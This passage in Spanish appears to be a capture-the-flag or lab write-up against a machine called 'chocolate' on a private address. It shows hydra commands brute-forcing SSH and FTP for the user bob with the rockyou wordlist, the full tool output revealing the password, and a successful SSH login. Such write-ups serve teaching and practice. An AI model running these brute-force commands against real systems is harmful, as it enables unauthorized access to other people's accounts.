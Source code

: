 Tenemos un usuario llamado **bob**, pero de ahí en fuera, no encontraremos más.

Intentemos aplicar Fuerza Bruta al **servicio SSH** utilizando este usuario.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="FuerzaBruta">Aplicando Fuerza Bruta al Servicio SSH y FTP con el Usuario bob</h2>

Primero, hagamos Fuerza Bruta al **servicio SSH** con la herramienta **hydra**:
```bash
hydra -l 'bob' -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.40 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-08 14:01:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.10.40:22/
[22][ssh] host: 192.168.10.40   login: bob   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-08 14:02:00
```
Muy bien, tenemos la contraseña.

Probémosla:
```bash
ssh bob@192.168.10.40
bob@192.168.10.40's password: 
Linux chocolate 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64
...
Last login: Thu May  8 22:03:30 2025
bob@chocolate:~$
```
Listo, somos **bob**.

También podemos aplicar Fuerza Bruta al **servicio FTP**:
```bash
hydra -l 'bob' -P /usr/share/wordlists/rockyou.txt ftp://192.168.10.40 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-08 14:02:10
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.10.40:21/
[21][ftp] host: 192.168.10.40   login: bob   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 14 final worker threads did not complete until end.
[ERROR] 14 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-08 14:02:16
```
